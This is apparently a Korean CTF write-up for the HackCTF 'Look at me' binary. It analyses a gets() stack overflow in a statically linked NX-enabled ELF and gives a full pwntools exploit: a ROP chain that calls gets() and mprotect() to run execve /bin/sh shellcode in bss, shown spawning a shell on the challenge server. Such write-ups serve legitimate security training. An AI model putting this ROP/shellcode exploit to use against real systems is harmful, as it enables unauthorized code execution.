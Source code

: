 # Look at me


```c
kimdong@ubuntu  ~/Wargame/200~250  file lookatme
lookatme: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=d2a1b10d006e4d6c4e84305383b4dc86481d87da, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec lookatme
[*] '/home/kimdong/Wargame/200~250/lookatme'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)

```
이번 바이너리 파일은 32-bit로 NX-bit가 설정되어있으므로, Shellcode를 이용한 Exploit은 불가해 보인다.<br>

추가적으로, 이번 바이너리 파일은 `statically linked`이므로, ida로 보았을때, 내부에 많은 함수들이 존재한다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./lookatme
Hellooooooooooooooooooooo
aaaaaaaaaaaa
```
실행시켜보면, 문자열이 출력되고, 사용자의 입력값을 받은뒤 종료되는 형식이다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  look_at_me();
  return 0;
}
```
ida로 보면 main문은 다음과 같다.<br>

`egid`를 받아와서, gid를 설정하고 `look_at_me`함수를 실행시킨다.<br>

```c
int look_at_me()
{
  char v1; // [esp+0h] [ebp-18h]

  puts("Hellooooooooooooooooooooo");
  return gets(&v1);
}
```
`look_at_me`함수는 문자열을 출력해주고, gets를 통해 사용자의 입력값을 받는다.<br>

`gets`는 문자열 길이를 검증하지 않기때문에, `BOF`취약점을 사용할 수 있을것같다.<br>

v1의 버퍼의 크기는 0x18Byte이고, SFP까지 하면 총 28Byte의 dummy값을 주면 될것 같다.<br>

하지만, `NX-bit`가 설정되어있으므로, `shellcode`를 입력하는 방법외에, 덮어씌울 함수주소를 찾아봐야 할것 같다.<br>

아무리 찾아봐도 이전 문제들과 같은 flag를 띄워주거나 shell을 띄워주는 함수가 보이지않았다.<br>

아예 몰랐던 방법인데, `mprotect`라는 함수를 쓰면 가능하다고 한다.<br>

`mprotect()`함수를 이용하여 Shellcode가 저장된 메모리 영역의 권한을 RWX로 변경하는 방식이다.<br>

이때, 주소의 값은 page 경계에 맞게 정렬되야 하므로 page 크기 `4096(0x1000)`의 배수가 되어야한다.<br>

mprotect(권한을 줄 시작위치, 길이, 권한)을 순서대로 3개의 인자를 주어야 한다.<br>

따라서 고정주소값 영역에 shellcode를 저장하고 `mprotect()`를 통해 실행권한을 부여해서 쉘을 띄울수 있을것이다.<br>

이번 문제에는 `gadget`들이 필요한데, `Yes or no`문제에서 처럼 `ROP`기법을 사용해야 할것 같다.<br>

따라서 `gets()`함수를 통해 bss영역에 `shellcode`를 입력하기 위한 `pop * ret` 가젯을 구해보자.<br>

x86이므로, 레지스터는 상관이 없다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./rp-lin-x86 -f lookatme -i 1 -r 1 |grep "pop edi ; ret"
0x08048480: pop edi ; ret  ;  (1 found)
```

`pr gadget`으로 `0x08048480`를 사용하도록 하겠다.<br>

이제, mprotect를 통해, shellcode가 입력된 주소지에 권한을 줄 `pop pop pop ret`가젯을 찾아보자.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./rp-lin-x86 -f lookatme -i 4 -r 4 |grep "pop ebx"
0x0806303b: pop edi ; pop esi ; pop ebx ; ret  ;  (1 found)
```
`pppr gadget`으로 `0x0806303b`를 사용하도록 하겠다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  objdump -h lookatme |grep bss
16 .tbss         00000018  080e9f6c  080e9f6c  000a0f6c  2**2
24 .bss          00000e0c  080eaf80  080eaf80  000a1f80  2**5
```
`bss`의 시작위치를 찾기위해 objdump명령어를 사용하였다 두번째 `080eaf80`가 bss영역의 시작주소이다.<br>

`mprotect`함수를 사용하기 위해서는 4096의 배수가 되어야하는데, 위의 주소는 배수가 아니다.<br>

따라서, 4096의 배수가 되는 근접한 숫자를 주고 `mprotect()`의 범위로 조절하는 방법이 있다.<br>

`80EA000`을 시작주소로 잡도록 하겠다.<br>

문제 해결 순서는 아래와 같다.<br>

* 1) 위에서 구한 `pr gadget`을 통해 gets()함수를 이용하여 bss영역에 shellcode를 입력해준다.<br>
* 2) shellcode를 입력해주고, `pppr gadget`을 통해 `mprotect()`를 이용하여 해당 bss영역에 권한을 부여한다.<br>
* 3) ret주소를 shellcode가 입력된 bss영역으로 덮어씌운다.<br>

---

## Exploit Code

```c

from pwn import *
p = remote("ctf.j0n9hyun.xyz",3017)

e = ELF("./lookatme")

pr = 0x08048480
pppr = 0x0806303b
gets_addr = e.symbols["gets"]
mprotect_addr = e.symbols["mprotect"]
bss_start = 0x80EA000
bss = 0x080eaf80
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload = "A"*28
payload += p32(gets_addr)
payload += p32(pr)
payload += p32(bss)

payload += p32(mprotect_addr)
payload += p32(pppr)
payload += p32(bss_start)
payload += p32(9000)
payload += p32(5)
payload += p32(bss)

p.recvuntil("Hellooooooooooooooooooooo\n")
p.sendline(payload)
p.sendline(shellcode)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame/200~250  python lookatme_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3017: Done
[*] '/home/kimdong/Wargame/200~250/lookatme'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ ls
flag
main
$ cat flag
HackCTF{}
$  
```

## END !
